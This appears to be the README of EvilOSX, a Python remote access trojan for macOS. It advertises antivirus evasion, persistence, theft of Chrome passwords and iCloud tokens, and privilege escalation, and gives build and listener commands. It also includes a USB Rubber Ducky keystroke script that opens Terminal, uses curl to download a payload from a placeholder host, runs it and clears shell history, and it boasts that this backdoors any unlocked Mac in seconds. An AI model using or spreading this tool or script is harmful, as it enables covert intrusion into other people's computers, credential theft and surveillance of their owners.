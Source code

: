 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="https://i.imgur.com/qiAJP95.png" alt="EvilOSX" width="250"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">A pure python, post-exploitation, RAT (Remote Administration Tool) for macOS / OSX.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX">
      <img src="https://img.shields.io/badge/contributions-welcome-orange.svg">
  </a>
</p>

---

## Features

- Emulate a simple terminal instance
- Undetected by anti-virus (randomized hash, [HTTPS](https://en.wikipedia.org/wiki/HTTPS) communication)
- Multi-threaded
- No client dependencies (pure python)
- Persistent
- Simple extendable [module](https://github.com/Marten4n6/EvilOSX/blob/master/modules/template.py) system
- Retrieve Chrome passwords
- Retrieve iCloud tokens and contacts
- Download and upload files
- Attempt to get root via local privilege escalation
- Auto installer, simply run EvilOSX on your target and the rest is handled automatically.

## How To Use
```bash
# Install urwid (required for the server GUI)
$ sudo pip install urwid

# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Go into the repository
$ cd EvilOSX

# Build EvilOSX which runs on your target
$ python builder.py

# Start listening for connections
$ python server/server.py

# Lastly, run the built EvilOSX on your target.
```

## Motivation

This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM Also see https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- Takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). Aluminum Keyboard (ISO) is probably the one you are looking for.

## Versioning

EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and client releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Issues

Feel free to submit any issues or feature requests.

## Credits

- The awesome [Empire](https://github.com/EmpireProject) project
- [manwhoami](https://github.com/manwhoami) for his projects: [OSXChromeDecrypt](https://github.com/manwhoami/OSXChromeDecrypt), [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)
- [urwid](http://urwid.org/) and [this code](https://github.com/izderadicka/xmpp-tester/blob/master/commander.py) which saved me a lot of time with the GUI
- Logo created by [motusora](https://www.behance.net/motusora)

## License

[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)